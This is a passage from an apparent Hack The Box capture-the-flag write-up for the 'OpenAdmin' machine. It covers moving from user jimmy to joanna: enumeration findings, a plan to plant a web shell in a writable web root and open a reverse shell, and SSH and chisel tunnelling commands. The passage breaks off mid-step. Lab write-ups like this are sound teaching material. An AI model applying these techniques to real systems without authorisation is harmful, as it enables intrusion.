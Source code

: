 
## Joanna - Enumeration
1. View groups for user `admin`
	```
	jimmy@openadmin:/var/www/internal$ groups
	jimmy internal
	```
	- `internal`
2. Found something interesting w/ `linpeas.sh`
	![]({{ page.img_path }}Pasted%20image%2020220926011836.png)
	>  - An internal port `TCP/52846`
	 > - Virtual Host is running as user `joanna`, 
	 > - Virtual Host web root directory: `/var/www/internal`
	 > - Virtual Host is running on `TCP/52846`
	 > - User `jimmy` has write access to the web root directory.
	{: .prompt-info}

## Joanna - How to privilege escalate w/ the info we have?
1. Analyzing the information we have
	1. Since Virtual Host is configured to run as user `joanna`, commands executed by the webserver will be executed as user `joanna`.
	2. User `jimmy` has write access to the web root directory `/var/www/internal`, this means we can write a web shell, and invoke a reverse shell through the webshell to obtain `joanna` shell.
	3. We have to use SSH Tunnel/Chisel in order to access `TCP/52846` on `kali`

## Joanna - Setup SSH Tunnel/Chisel 
1. Setup SSH Tunnel
	```
	┌──(root💀kali)-[~/htb/OpenAdmin]
	└─# ssh -L52846:127.0.0.1:52846 jimmy@openadmin.htb
	```
	> On `kali`, port 52846 is forwarded to `openadmin.htb` on port 52846
	{: .prompt-info}
2. Enumerate `TCP/52846` on `kali`
	```
	┌──(root💀kali)-[~/htb/OpenAdmin]
	└─# nmap -sV -sC localhost -p52846
	PORT      STATE SERVICE VERSION
	52846/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	| http-cookie-flags:
	|   /:
	|     PHPSESSID:
	|_      httponly flag not set
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	|_http-title: Tutorialspoint.com
	```
3. OR use `chisel`
	-  `kali`
		```
		┌──(root💀kali)-[~/htb/OpenAdmin]
		└─# chisel server --reverse --port 1337
		2022/09/26 01:46:59 server: Reverse tunnelling enabled
		2022/09/26 01:46:59 server: Fingerprint tW7cYmw1k5JhH4eZ9m62QDga8zuBVNteoY4tiaxbFvY=
		2022/09/26 01:46:59 server: Listening on http://0.0.0.0:1337
		```
	- `openadmin.htb`
		```